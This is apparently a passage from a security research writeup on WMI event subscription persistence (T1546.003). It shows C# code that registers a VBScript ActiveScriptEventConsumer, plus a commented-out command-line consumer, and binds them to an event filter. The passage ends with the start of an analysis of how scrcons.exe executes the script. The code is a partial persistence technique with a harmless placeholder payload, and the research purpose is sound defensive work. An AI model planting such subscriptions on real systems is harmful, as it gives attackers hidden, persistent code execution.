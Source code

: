 ```c#
                
                // ActiveScriptEventConsumer
                myEventConsumer = new ManagementClass(scope, new ManagementPath("ActiveScriptEventConsumer"), null).CreateInstance();
                myEventConsumer["Name"] = "BadActiveScriptEventConsumer";
                myEventConsumer["ScriptingEngine"] = "VBScript";
                myEventConsumer["ScriptText"] = vbscript;
                myEventConsumer.Put();

                // CommandLineEventConsumer
                /*myEventConsumer =
                new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"),
                null).CreateInstance();
                myEventConsumer["Name"] = "BadCommandLineEventConsumer";
                myEventConsumer["ExecutablePath"] = @"C:WindowsSystem32cmd.exe";
                myEventConsumer["CommandLineTemplate"] = @"cmd /c powershell mkdir <YOUR_PATH>";
                myEventConsumer.Put();*/

                Console.WriteLine("[*] Event consumer created.");

                myBinder =
                new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"),
                null).CreateInstance();
                myBinder["Filter"] = myEventFilter.Path.RelativePath;
                myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
                myBinder.Put();

                Console.WriteLine("[*] Subscription created");
            }
            catch (Exception e)
            {
                Console.WriteLine(e);
            }
        }
    }
}

```

## Analysis on scrcons.exe
### Code execution: Calling COM object `IActiveScript`
Noteable Call Stack  
Initiation part
![stack_trace_cexecclassfactory_createinstance.png](./Image_T1546.003/stack_trace_cexecclassfactory_createinstance.PNG)

Loading the script text inside `CScriptSink::Initialize`
![stack_trace_cexecclassfactory_createinstance.png](./Image_T1546.003/stack_trace_cscript_initialize.PNG)
